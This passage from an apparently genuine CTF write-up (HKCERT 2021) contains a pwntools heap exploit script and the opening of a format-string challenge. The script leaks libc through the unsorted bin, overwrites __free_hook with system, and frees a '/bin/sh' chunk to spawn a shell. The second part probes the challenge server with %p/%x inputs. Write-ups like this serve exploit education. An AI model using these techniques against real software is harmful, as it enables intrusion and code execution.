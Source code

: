 ```python=
add(1, "A")
# chunks for padding
for i in range(9):
    add(0x40, b"/bin/sh\x00")
edit(0, "\n")

# change the size of neighbour
payload = p64(0)*3 + p64(0x431)
edit(0, payload)

# free it to get a unsorted bin
remove(1)

payload = 'A'*0x20
edit(0, payload)

view(0)
p.recvuntil("A"*0x20)
libc_base = u64(p.recv(6).ljust(8, b'\x00')) - 0x1ebbe0

info(f"libc_base: {hex(libc_base)}")
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']
info(f"free_hook: {hex(free_hook)}")

payload = p64(free_hook) * 24
edit(0, payload)

edit(2, p64(system))
remove(5)


p.interactive()
```


## Unobserved Box
### Step 1: Dump the source code throught format string
This challenge only give us the server to connect.
My teammate tell me this challenge may have format string vulnerability when I was sleeping.
```shell=
┌──(bot3310㉿kali)-[~/ctf/hkcert2021/box]
└─$ nc chalp.hkcert21.pwnable.hk 28132                                                                                                                                                                                              130 ⨯ 1 ⚙
%p %x %c %d
0x7ffee2d4b670 e2d4b670  1179970944 is not the correct answer.


```
After I few tries, we can't get any useful information from the server.
However, I remember Liveoverflow has a video talk about a challenge like this.
https://www.youtube.com/watch?v=XuzuFUGuQv0&t=450s
